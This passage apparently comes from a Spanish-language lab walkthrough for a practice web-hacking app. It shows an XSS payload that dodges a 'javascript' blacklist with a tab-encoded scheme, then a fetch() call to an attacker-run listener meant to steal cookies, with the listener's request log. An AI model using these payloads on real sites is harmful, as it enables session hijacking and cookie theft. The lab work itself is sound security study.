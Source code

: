 ![](/assets/images/WebHackingPlayground/img5.png)

La palabra javascript está en una blacklist, por lo tanto la cosa se complica un poco. Podemos intentar bypassear esto. Hay muchos filtros que podemos intentar aplicar, en mi caso voy a usar el siguiente.

```js
Jav%09ascript:prompt(1)
```

Podemos ver que se ejecuta correctamente.

![](/assets/images/WebHackingPlayground/img6.png)

Ahora vamos a tratar de enviarnos peticiones, para ver si podemos robarle las cookies al usuario.

```js
Jav%09ascript:Jav%09ascript:fetch(`http://172.17.0.1/`)
```

Si probamos el payload podemos ver que nos llegan las peticiones.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.129.174 - - [06/Mar/2023 10:12:17] "GET / HTTP/1.1" 200 -
192.168.129.174 - - [06/Mar/2023 10:12:23] "GET / HTTP/1.1" 200 -
192.168.129.174 - - [06/Mar/2023 10:12:23] "GET / HTTP/1.1" 200 -
```
